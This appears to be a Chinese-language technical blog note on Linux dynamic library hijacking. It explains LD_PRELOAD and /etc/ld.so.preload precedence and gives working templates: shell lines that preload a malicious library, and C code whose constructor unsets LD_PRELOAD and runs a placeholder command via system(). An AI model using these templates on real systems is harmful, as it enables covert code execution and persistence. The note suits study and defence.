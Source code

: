 ```yaml
---
layout: post
title: 动态链接库劫持
date: 2022-9-22
categories: blog
tags: [笔记,拓展知识]
description: 动态链接库

---
```


### 动态链接库劫持

***

#### 程序链接方式

静态链接：程序运行前将各个目标模块以及库函数链接
装入链接：在程序编译装入内存时，一边编译，一边链接
运行链接：在程序执行时，需要时才进行链接

#### 动态链接库劫持

LD_PRELOAD环境变量和/etc/ld.so.preload配置文件中指定的动态链接库比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，即使用户不使用，仍会加载。  

#### 利用方式  

1.`通过LD_PRELOAD环境变量加载`  
2.`通过/etc/ld.so.preload配置文件加载`  
3.`通过修改动态链接器实现恶意代码`

##### 通过LD_PRELOAD环境变量加载

```shell
LD_PRELOAD = /evil.so #设置恶意动态链接库
export  LD_PRELOAD  #导出生效
```

##### 通过/etc/ld.so.preload配置文件加载

```shell
echo "/evil.so" > /etc/ld.so.preload
```

##### 通过修改动态链接器实现

```shell
#1.修改动态链接器中配置文件路径/etc/ld.so.preload为自定义的路径
#2.在该路径中写入要预加载的恶意动态链接库的绝对路径
```

#### 利用

##### 查看库函数 

```shell
readelf -Ws /usr/bin/ls
```

##### 选择函数重写

```c
//劫持某一函数
#include<stdlib.h> 

#include<stdio.h>  

#include<string.h>

void payload(){
     //exp;
}
int xxx(){
	if(getenv("LD_PRELOAD") == NULL){
		return 0;
	}
	unsetenv("LD_PRELOAD");
	payload();
}

//所有命令全量劫持
#include<stdlib.h>

#include<stdio.h>

#include<string.h>


__attribute__((__constructor__)) void preload (){
    unsetenv("LD_PRELOAD");
    system("id");//exp
}
```

##### 编译加载

```shell
gcc -shared -fPIC test.c -o test.so
export LD_PRELOAD=$PWD/test.so
```

